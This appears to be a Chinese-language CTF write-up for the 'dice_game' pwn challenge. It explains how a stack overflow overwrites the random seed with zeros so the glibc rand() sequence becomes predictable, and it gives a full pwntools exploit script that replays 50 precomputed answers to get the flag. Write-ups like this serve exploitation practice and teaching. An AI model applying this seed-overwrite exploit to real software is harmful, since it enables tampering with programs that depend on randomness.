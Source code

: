 ## dice_game

![d0.png](https://i.loli.net/2019/08/06/M5A9XCf86z1ZU4H.png)

保护很足，但是没有canary，没得ROP

![D3.png](https://i.loli.net/2019/08/06/GZU8XdhEVoDvrbB.png)

存在后门函数，可是无法直接跳进来（可能是我太菜了，无法利用）



看其游戏规则，是要玩够50关猜数字游戏就可以直接得到flag，那就玩游戏吧

置随机数种子，然后取随机数猜，这个好办，种子在栈上，第一次输入可以覆盖种子，这里直接覆盖为0，linux glibc中的置随机数都是伪随机数，只要种子一样，生成的随机数序列是一样的，写一个c程序跑一下50个随机数

![d1.png](https://i.loli.net/2019/08/06/Dlci8jvgC75ERXN.png)

接着输入这50个数就可以读得flag

![d2.png](https://i.loli.net/2019/08/06/W8mi1dzZlqLorb5.png)

完整EXP：

```python
from pwn import *
p = process("./dice_game")

p.sendline('\x00' * 0x50)
p.recv()
ans = [
    2, 5, 4, 2, 6, 2, 5, 1, 4, 2, 3, 2, 3, 2, 6, 5, 1, 1, 5, 5, 6, 3, 4, 4, 3,
    3, 3, 2, 2, 2, 6, 1, 1, 1, 6, 4, 2, 5, 2, 5, 4, 4, 4, 6, 3, 2, 3, 3, 6, 1
]

for i in range(50):
    p.sendline(str(ans[i]))
    p.recvuntil("You win.")

print p.recv()
```

# Crypto

To-Do

# Reverse

## RE100

![00.png](https://i.loli.net/2019/08/08/gl1LutwPqzsbyEk.png)
